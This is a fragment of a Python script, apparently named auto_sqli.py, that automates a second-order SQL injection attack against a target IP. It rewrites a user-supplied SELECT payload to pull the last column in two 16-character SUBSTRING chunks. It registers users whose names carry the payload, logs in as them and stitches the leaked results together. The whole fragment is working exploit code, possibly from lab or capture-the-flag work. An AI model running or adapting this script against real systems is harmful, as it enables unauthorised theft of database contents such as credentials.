 ```python
        return payload
        
    select_clause = payload[select_pos:from_pos]
    rest_of_query = payload[from_pos:]
    
    columns = select_clause.replace('SELECT', '').strip().split(',')
    
    modified_columns = []
    for i, col in enumerate(columns):
        col = col.strip()
        if i == len(columns) - 1:  # Last column
            # Handle both simple columns and expressions
            col_content = col.strip('1234567890 ')  # Remove any numeric values
            if col_content:  # If there's a non-numeric column
                col = f"SUBSTRING({col}, {substring_range[0]}, {substring_range[1]})"
        modified_columns.append(col)
    
    modified_payload = payload[:select_pos] + 'SELECT ' + ', '.join(modified_columns) + ' ' + rest_of_query
    return modified_payload

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 auto_sqli.py <IP_ADDRESS> <PAYLOAD>")
        sys.exit(1)

    ip = sys.argv[1]
    original_payload = sys.argv[2]
    
    first_payload = modify_payload(original_payload, (1, 16))
    second_payload = modify_payload(original_payload, (17, 32))

    print(f"[+] Creating user with first payload: {first_payload}")
    if create_user(ip, first_payload):
        print("[+] User created successfully. Attempting first login...")
        first_response = login_user(ip, first_payload)
        first_results = extract_results(first_response)
        
        print(f"[+] Creating user with second payload: {second_payload}")
        if create_user(ip, second_payload):
            print("[+] User created successfully. Attempting second login...")
            second_response = login_user(ip, second_payload)
            second_results = extract_results(second_response)
            
            print("\n[+] Combined results:")
            for i in range(len(first_results)):
                full_result = first_results[i]
                if i < len(second_results) and second_results[i].strip():
                    full_result += second_results[i]
                print(f"  - {full_result}")
        else:
            print("[-] Failed to create user for second query.")
    else:
        print("[-] Failed to create user. Check the payload or connection.")

if __name__ == "__main__":
    main()
```
